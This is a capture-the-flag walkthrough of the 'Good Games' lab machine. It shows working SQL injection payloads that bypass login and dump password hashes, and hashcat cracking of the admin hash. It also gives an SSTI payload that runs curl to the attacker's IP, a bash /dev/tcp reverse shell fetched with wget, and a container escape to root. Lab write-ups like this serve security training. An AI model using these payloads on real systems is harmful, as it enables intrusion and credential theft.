# Good Games Writeup

Target host: 10.10.11.130
TCP port scan.
```php
└──╼ $rustscan -a 10.10.11.130 -- -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/nath/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.130:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sV" on ip 10.10.11.130
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-02 00:26 AEST
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 00:26
Scanning 10.10.11.130 [2 ports]
Completed Ping Scan at 00:26, 0.25s elapsed (1 total hosts)
Initiating Connect Scan at 00:26
Scanning goodgames.htb (10.10.11.130) [1 port]
Discovered open port 80/tcp on 10.10.11.130
Completed Connect Scan at 00:26, 0.50s elapsed (1 total ports)
Initiating Service scan at 00:26
Scanning 1 service on goodgames.htb (10.10.11.130)
Completed Service scan at 00:26, 8.01s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.11.130.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 00:26
Completed NSE at 00:26, 2.39s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 00:26
Completed NSE at 00:26, 1.42s elapsed
Nmap scan report for goodgames.htb (10.10.11.130)
Host is up, received syn-ack (0.28s latency).
Scanned at 2023-06-02 00:26:20 AEST for 13s

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.51

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.05 seconds
```

Navigating to the webpage open on port 80 presents the following page.


As most of the links on the home page were not working, I attempted to browse through each of the blog posts and found that only one of them was working. This post in particular looks like it was created by the admin.


Going back to the index page, I found a link to the login page which can be seen by clicking in the top right corner of the screen.


From here, the following account was created.


Upon logging in with the user I just created, I see the message `Welcome Nate`


After we log in, all the user can see is a simple dashboard and a little form field to change their password. Other than that, there is no reason to log in as a normal user other than the fact that you can comment on blog posts.

Before moving on, I checked if any of the `change password` form fields were vulnerable to SQL injection with the following payloads.
```go
password'+or+1=1--
password'+or+1=1#
password' or 1=1;--
```

However, there was no response to indicate that any form fields were vulnerable.

From here, I go back to the login page and attempt to check if the authentication can be bypassed via SQL injection. When the request is intercepted with burp proxy and modified with the following payload `'+or+1=1#`, I see the following page.


By using some of the SQL injection techniques learned in the Burpsuite web security academy, I found that the query that is executed at login has 4 arguments. This was achieved with the following payload `'+order+by+4#`


When the payload is modified to use a `union select` statement, we can see below that the 4 arguments are used to display the name of the user on the screen.


Inserting the `database()` function in place of argument 4 shows that the name of the database is `main`. Here the query was modified to show all the information schemas in the database `'+union+select+1,2,3,concat(table_schema,'%20')+from+information_schema.tables`.

This is necessary to filter out all the irrelevant database tables and to only show us the tables that belong to `main`.


Modifying the payload as follows `'+union+select+1,2,3,concat(table_name,'%20')+from+information_schema.tables+where+table_schema+=+'main'#` to dump all tables from the database schema `main` shows that there are 3 tables in the database named `main`. They are `blog`, `blog_comments`, and, `user`.


By modifying the payload again, the column names for the user table can be retrieved `'+union+select+1,2,3,concat(column_name,'%20')+from+information_schema.columns+where+table_name+=+'user'#`. Executing the query shows that the password for each user is stored in the same table.


Modifying the payload one last time can be used to retrieve the password hash for the admin user `'+union+select+1,2,3,concat(name,'%20',password,'%20')+from+user#`.


Storing the hash of the admin password in a text and handing it to `hashid`, tells us that hash is likely `MD5`. Providing the following command to hashcat `hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt` shows the following results.


The password is `superadministrator`.

After logging in as the administrator user, you will notice that there is an extra icon in the shape of a gear in the top right corner of the screen that will lead us to an administration page at `internal-administration.goodgames.htb`.


If not done already, in order to access the `goodgames​` subdomain, you will need to make the following changes in `/etc/hosts` below:
```bash
10.10.11.130 goodgames.htb internal-administration.goodgames.htb
```

Once the changes have been saved to `/etc/hosts`, upon navigating to `http://internal-administration.goodgames.htb` the following page will be displayed.


Here I log into the admin panel with `username=admin&password=superadministrator`

After exploring the admin for a few minutes and messing around with some of the form fields, I find that there is a Server Side Template Injection (SSTI) vulnerability in the user profile feature. Entering the payload `{{7*7}}` into the `Full Name` field displays the following result.


Before attempting to see if I can get a reverse shell, first I need to test if the server can contact me. To do this I will use the following payload `{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("curl http://10.10.16.2:9001/hey").read() }}` and start a http server with `python3 -m http.server 9001`. Executing the code from the vulnerable application shows the following result from the HTTP server.


Now that I know that the server can contact my machine, I will write the following payload to a file `/bin/bash -i >& /dev/tcp/10.10.16.2/9002 0>&1`, serve it, and attempt to get the victim to download and execute it.

After executing `wget http://myIpAddress:9001/rev.sh` and `ls` on the victim's machine, I was able to verify that the victim was able to download the reverse shell.


Before catching the reverse shell I start netcat with `nc -nlvp 9002`.
After granting the reverse shell execute permissions to run with `chmod +x rev.sh` and executing the script, I see the following below.


Next, I will upgrade the shell by pressing `ctrl+Z` and entering `stty raw -echo; fg`. For anyone reading this that has no idea what this means, when you press ctrl+Z, you move the current task to continue running in the background. The `fg` allows us to move the background task into the foreground so we can take control of it again.


As I saw the Dockerfile and the `.dockerenv` directory when I connected to the machine, it is quite clear that the web application is running inside of a Docker container. In order to escalate privileges from here, I need to find the target that is hosting the container.


Attempt to see if there are any more hosts running on the subnet. First I check what the machine's IP address is and then I decrement or increment the host value by 1 and contact it with the `ping` utility.

The output below shows the IP address of the container and the target machine that is hosting the container.


As the user located in the home directory of the container is Augustus, I attempt to connect to `172.19.0.2` via ssh as Augustus using the `superadministrator` password.


After successfully logging in as Augustus, I noticed that the home directory on the machine hosting the container is the same as the home directory hosted in the container. I verify this is true by creating a copy of bash and placing it in `/home/augustus`.


Then I modify the permissions of the copy of bash within the container as root and allow everyone to read, write and execute. I also set the owner as root. Once complete, I log back into to Augustus and escalate to root on the host machine.
